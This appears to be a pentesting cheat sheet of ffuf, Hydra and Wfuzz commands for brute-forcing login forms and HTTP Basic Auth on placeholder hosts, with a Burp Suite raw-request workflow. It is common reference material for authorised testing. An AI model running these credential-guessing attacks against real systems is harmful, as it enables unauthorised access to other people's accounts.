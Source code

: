 ```sh
# -fc: Filter HTTP status code
ffuf -w passwords -X POST -d "username=admin&password=FUZZ" -u http://vulnerable.com/login -fc 401

# Basic Auth
ffuf -u https://admin:FUZZ@example.com/ -w wordlist.txt -fc 401
```

Also we can use raw request file of Burp Suite.

1. Send request in Burp Suite.
2. Right-click on the request screen.
3. Click **"Copy to file"** in the menu.
4. Edit the raw file to change target value to **"FUZZ"** keyword.

After that, we can use it in the **`ffuf`** command.

```bash
# Interate with Burp Suite raw request
ffuf -u http://example.com/login -request raw.txt -x http://127.0.0.1:8080 -w wordlist.txt
```

### Using Hydra

```sh
# Cracking username
hydra -L usernames.txt -p password vulnerable.com http-post-form "/login:username=^USER^&password=^PASS^:Invalid username"
# Cracking password
hydra -l username -P passwords.txt vulnerable.com http-post-form "/login:username=^USER^&password=^PASS^:Invalid password"

# HTTPS (https-post-form)
hydra -L usernames.txt -P passwords.txt vulnerable.com https-post-form "/login:username=^USER^&password=^PASS^:Username or password is incorrect"


# Cracking the Authorization or WWW-Authenticate in the request header.
hydra -L usernames.txt -P passwords.txt <target-ip> http-get
```

### Using Wfuzz

```sh
# Cracking username
wfuzz -z file,./usernames.txt -d "username=FUZZ&password=password" -u https://example.com/login
# Cracking password
wfuzz -z file,./passwords.txt -d "username=admin&password=FUZZ" -u https://example.com/login
# Crack username/password
wfuzz -z file,./usernames.txt -z file,./passwords.txt -d "username=FUZZ&password=FUZ2Z" -u https://example.com/login

# Range: 00-99 -> "password00", "password01", ..., "password99"
# -t: N threads
# -s: N seconds per request
wfuzz -z range,00-99 -d "username=admin&password=passwordFUZZ&submit=Submit" -X POST -u https://example.com/login -t 1 -s 20

# -- Options --------------------------------------------------------------------------------------------

# --hc: Hide the specific status code
wfuzz -z file,./usernames.txt -d "username=FUZZ&password=password" --hc 302 -u http://example.com/login
# --hh: Hide the specific chars (Content-Length)
wfuzz -z file,./passwords.txt -d "username=admin&password=FUZZ" --hh 783 -u http://example.com/login
```